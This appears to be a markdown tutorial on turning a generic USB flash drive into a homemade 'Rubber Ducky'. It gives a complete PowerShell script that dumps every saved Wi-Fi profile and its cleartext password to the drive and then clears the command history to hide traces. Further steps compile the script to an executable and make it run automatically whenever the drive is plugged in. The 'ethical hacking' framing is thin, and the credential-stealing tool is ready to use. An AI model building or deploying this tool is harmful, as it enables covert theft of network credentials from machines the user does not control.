



# DIY Rubber Ducky: Generic USB Flash Drive

## Background:

The USB Rubber Ducky is a versatile penetration testing tool disguised as a standard USB flash drive but operates as a keystroke injection device. Once plugged into a target system, it simulates a human typing at superhuman speeds, executing pre-written scripts to deliver payloads, run commands, or modify system settings without requiring special permissions. Because it acts as a USB keyboard, most systems recognize it instantly, allowing it to bypass many traditional security measures. It is widely used by ethical hackers for tasks such as gathering system information, exploiting vulnerabilities, and demonstrating potential security weaknesses in physical access defenses. The Rubber Ducky’s ease of use and effectiveness make it popular in both offensive security testing and educational settings. This walkthrough discusses making a simple one with a generic USB flash drive.

### Requirement:

1 USB Flash Drive (any size)

## Setup

1. Format USB flash drive. Name it “FSOCIETY”
2. Download and install “SamLogic USB AutoRun Creator” from the link below.

[](https://en.softonic.com/download/usb-autorun-creator/windows/post-download)

1. Copy and paste the code below into a .txt file and save it as FSOCIETY.ps1 and save it to your desktop.

```go
# Define the volume label you're looking for
$targetLabel = "FSOCIETY"

# Find the drive letter of the USB drive with the specified label
$volume = Get-Volume | Where-Object { $_.FileSystemLabel -eq $targetLabel }

if ($volume) {
    $driveLetter = $volume.DriveLetter + ":\"
    $usbPath = "$driveLetter$env:username.txt"
    $baseDestinationDir = $driveLetter
    Write-Output "Drive letter found: $driveLetter"
} else {
    Write-Error "Drive with label '$targetLabel' not found."
    exit
}

# Initialize an array to store all Wi-Fi profiles and their passwords
$wifiData = @()

# Get all Wi-Fi profiles
$profiles = netsh wlan show profile | Select-String '(?<=All User Profile\s+:\s).+'

foreach ($profile in $profiles) {
    $wlan = $profile.Matches.Value.Trim()

    # Get the password for the current Wi-Fi profile
    $passw = netsh wlan show profile $wlan key=clear | Select-String '(?<=Key Content\s+:\s).+'
    $password = if ($passw) { $passw.Matches.Value.Trim() } else { "No Password Found" }

    # Create a custom object with the profile and password information
    $wifiData += [PSCustomObject]@{
        Username = $env:username
        Profile  = $wlan
        Password = $password
    }
}

# Convert the array of Wi-Fi data to JSON
$jsonBody = $wifiData | ConvertTo-Json -Depth 3

# Save the JSON data to a file on the USB drive
$jsonBody | Out-File -FilePath $usbPath -Encoding UTF8

# Clear the PowerShell command history
Clear-History

exit
```

---

This PowerShell script is designed to perform the following actions:

1. **Identify a USB Drive by Volume Label**:
    - The script looks for a USB drive with the volume label “FSOCIETY.”
    - If it finds a drive with this label, it identifies the drive letter (e.g., `E:\`) and stores it in the `$driveLetter` variable.
    - It then constructs a path to save a file on that USB drive (`$usbPath`), where `username.txt` is the filename that includes the current username.
2. **Extract Wi-Fi Profile and Password Information**:
    - It initializes an array (`$wifiData`) to hold Wi-Fi profile data.
    - Using the `netsh wlan show profile` command, it retrieves all saved Wi-Fi profile names on the device and stores them in `$profiles`.
    - For each Wi-Fi profile:
        - It extracts the Wi-Fi profile name.
        - It attempts to retrieve the Wi-Fi password by using the `netsh wlan show profile [profile name] key=clear` command. If the profile has a password, it extracts it; if no password exists, it sets it as “No Password Found.”
        - It then creates a custom object containing the username, Wi-Fi profile name, and password and adds this object to `$wifiData`.
3. **Convert Wi-Fi Data to JSON Format**:
    - The script converts the `$wifiData` array to JSON format using `ConvertTo-Json`, which allows for structured data storage.
4. **Save JSON Data to the USB Drive**:
    - It writes the JSON-formatted Wi-Fi data to a file (`username.txt`) located on the specified USB drive.
5. **Clear Command History and Exit**:
    - Finally, the script clears the PowerShell command history with `Clear-History` to remove any trace of the commands used.
    - The script then exits.

Summary of What This Script Does:

- It finds a specific USB drive by label, gathers all saved Wi-Fi profiles and their passwords on the machine, stores this data in JSON format, and saves it as a file on the USB drive. The command history is cleared afterward to hide traces of the activity.

---

1. Install the PowerShell module “ps2exe” this converts .ps1 files to .exe files.

```go
Install-Module ps2exe
```



1. Navigate to your Desktop and convert FSOCIETY.ps1 to FSOCIETY.exe with the following command.

```go
 Invoke-PS2EXE FSOCIETY.ps1 FSOCIETY.exe
```

1. Open Sam Logic USB Autorun Creator and select fsociety.exe as the program to run and select the appropriate drive letter for your newly formatted USB flash drive and select create.



1. When completed disconnect the USB drive. The USB drive will now automatically collect all WiFi passwords stored on the system and write them to a .txt file every time the USB is plugged into a system.
2. Reconnect the USB. After a few seconds open the flash drive. There should be a .txt file named after the current user. This file includes the WiFi network passwords.



We just created our own Rubber Ducky (Bad USB). The commercial Rubber Ducky (which costs about $70) has additional features, but this is a cost effective alternative.